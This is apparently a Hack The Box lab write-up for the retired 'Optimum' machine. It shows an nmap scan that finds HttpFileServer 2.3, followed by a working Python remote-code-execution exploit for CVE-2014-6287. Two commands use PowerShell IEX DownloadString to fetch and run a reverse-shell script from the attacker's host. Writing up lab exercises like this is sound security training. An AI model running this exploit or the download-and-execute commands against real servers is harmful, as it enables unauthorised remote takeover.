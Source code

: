 # Optimum (Retired)



## Recon


### nmap

```bash
(boolean㉿kalibox)[~/htb/optimum-pwnd]$ cat nmap/optimum-full.nmap 
# Nmap 7.91 scan initiated Mon Nov 23 20:52:21 2020 as: nmap -sC -sV -p- -oA nmap/optimum-full 10.10.10.8
Nmap scan report for 10.10.10.8
Host is up (0.030s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov 23 20:54:12 2020 -- 1 IP address (1 host up) scanned in 111.17 seconds
```

### Webpage

![image-20210414225421233](/home/boolean/.config/Typora/typora-user-images/image-20210414225421233.png)

HttpFileServer seems to be the only entry point.



## Exploit

A single result is returned from searchsploit [CVE-2014-6287](https://www.exploit-db.com/exploits/39161).

```python
#!/usr/bin/python3

# Usage :  python3 Exploit.py <RHOST> <Target RPORT> <Command>
# Example: python3 HttpFileServer_2.3.x_rce.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.4/shells/mini-reverse.ps1')"

import urllib3
import sys
import urllib.parse

try:
        http = urllib3.PoolManager()
        url = f'http://{sys.argv[1]}:{sys.argv[2]}/?search=%00{{.+exec|{urllib.parse.quote(sys.argv[3])}.}}'
        print(url)
        response = http.request('GET', url)

except Exception as ex:
        print("Usage: python3 HttpFileServer_2.3.x_rce.py RHOST RPORT command")
        print(ex)

```





```bash
python3 Exploit.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.24//invoke.ps1')"
```

